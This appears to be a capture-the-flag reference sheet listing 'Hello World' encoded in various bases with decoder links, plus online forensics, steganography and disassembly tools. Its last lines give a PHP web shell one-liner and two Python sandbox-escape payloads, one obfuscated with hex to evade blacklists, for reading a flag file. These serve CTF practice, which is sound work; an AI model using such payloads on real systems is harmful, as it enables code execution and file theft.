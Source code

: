 # CTF-Reference
**Reference for CTF Challenges.**

**Note :** All the encoded/encrypted strings are 'Hello World".

List of Numeral Systems - https://en.wikipedia.org/wiki/List_of_numeral_systems

Base 26(Hexavigesimal) => 3752127 10786572 -  https://www.dcode.fr/base-26-cipher

Base 32 => NBSWY3DPEB3W64TMMQ====== - https://www.dcode.fr/base-32-encoding

Base 58 => StV1DL6CwTryKyV - https://www.dcode.fr/base-58-cipher

Base 64 => aGVsbG8gd29ybGQ= - https://www.dcode.fr/base-64-encoding

Base 85(Ascii85) => BOu!rD]j7BEbo7 - https://www.dcode.fr/ascii-85-encoding

Base 91 => >OwJh>Io0Tv!lE - https://www.dcode.fr/base-91-encoding

Base65536 => 驈ꍬ啯𒁗ꍲᕤ - https://www.better-converter.com/Encoders-Decoders/Base65536-Decode

Ascii to x86 Disassembly - https://gchq.github.io/CyberChef/#recipe=From_Decimal('Comma',false)To_Hex('Space',0)Disassemble_x86('64','Full%20x86%20architecture',16,0,true,true)

Zero-width space Decoder - https://offdev.net/demos/zwsp-steg-js.

Unicode Analyzer - https://www.fontspace.com/unicode/analyzer

Live Disassembler - https://godbolt.org/

Linux Command Explaination - https://explainshell.com

Fernet online decoder - https://asecuritysite.com/encryption/ferdecode

Online Stegnography Tool - https://stegonline.georgeom.net/upload

Dig Webinterface - https://www.digwebinterface.com

Gif splitter - https://ezgif.com/split

Online Packet analyser - https://apackets.com

Dual Tone Multi Frequency - http://dialabc.com/sound/detect/index.html

Cipher Identifier - https://www.boxentriq.com/code-breaking/cipher-identifier

pngcheck -qv test.png - Use this command to check for broken png.

Png repair tool - https://github.com/sherlly/PCRT

Simple one liner - `<?php system("whoami");?>`

Python Sandbox escape - `globals()["__builtins__"].open("/flag").read()`

Escape while builtins and open is blacklisted - `globals().__getitem__(bytes.fromhex(%275f5f6275696c74696e735f5f%27).decode(%27utf-8%27)).__getitem__(bytes.fromhex(%276f70656e%27).decode(%27utf-8%27))(%22/flag%22,%20%22r%22).read()`


